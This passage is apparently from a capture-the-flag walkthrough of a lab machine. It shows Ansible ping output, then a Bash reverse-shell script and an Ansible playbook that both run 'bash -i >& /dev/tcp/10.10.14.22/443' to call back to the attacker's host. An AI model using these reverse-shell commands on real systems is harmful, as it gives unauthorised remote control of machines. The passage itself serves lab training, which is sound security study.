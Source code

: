 ```
TASK [ping] ************************************************************************************************************************
changed: [localhost]

TASK [stdout] **********************************************************************************************************************
ok: [localhost] => {
    "msg": "PING 10.10.14.22 (10.10.14.22) 56(84) bytes of data.\n64 bytes from 10.10.14.22: icmp_seq=1 ttl=63 time=18.2 ms\n\n--- 10.10.14.22 ping statistics ---\n1 packets transmitted, 1 received, 0% packet loss, time 0ms\nrtt min/avg/max/mdev = 18.160/18.160/18.160/0.000 ms"
}

TASK [stderr] **********************************************************************************************************************
ok: [localhost] => {
    "msg": ""
}

PLAY RECAP *************************************************************************************************************************
localhost                  : ok=4    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0

```

### Shell

#### Via Reverse Shell

I’ll create a simple Bash script to get a reverse shell:

```

luis@seal:/dev/shm$ vim rev.sh
luis@seal:/dev/shm$ cat rev.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.22/443 0>&1
luis@seal:/dev/shm$ chmod +x rev.sh 

```

After testing that it works, I’ll make a playbook to run it:

```
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.22/443 0>&1'

```

Running it hangs in the rev task:


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
